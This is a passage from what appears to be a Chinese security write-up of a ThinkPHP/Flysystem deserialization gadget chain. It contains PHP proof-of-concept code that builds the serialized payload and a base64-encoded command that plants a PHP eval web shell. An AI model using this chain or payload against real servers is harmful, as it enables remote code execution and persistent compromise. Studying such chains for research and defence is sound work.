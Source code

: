 ```plain
        {
            $this->key    = $key;
            $this->store  = $store;
            $this->expire = $expire;
        }
    }
}

namespace think\cache{
    abstract class Driver{

    }
}
namespace think\cache\driver{
    use think\cache\Driver;
    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'y4tacker',
            'hash_type'     => 'md5',
            'serialize'     => ['system'],
        ];
    }
}
namespace{
    $b = new think\cache\driver\File();
    $a = new think\filesystem\CacheStore($b,'y4tacker','1111');
    echo urlencode(serialize($a));

}
```

### 分析

这个链子也非常简单 League\\Flysystem\\Cached\\Storage\\AbstractCache 的\_\_destruct

```plain
public function __destruct()  
{  
    if (! $this->autosave) {  
        $this->save();  
    }  
}
```

think\\filesystem 的 CacheStore.php 的 save() 方法:getForStorage() 方法调试多了都有经验了，这里设置的 cache 是一维数组会直接返回 cache 的值： 
\['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'\]  
最后返回 json\_encode 函数处理后的结果  
\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]  
然后进入$this->store->set，也就是 think\\cache\\driver\\File 的 set() 方法：创建文件目录和文件名后进入 serialize 方法这里提前设置了$this->options\['serialize'\]为 system 执行  
system('\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]')  
最后虽然没有返回但是命令也被执行了，成功创建文件  
我们自然可以只赋值 complete 变量，把 cache 变量设置为空数组也可以
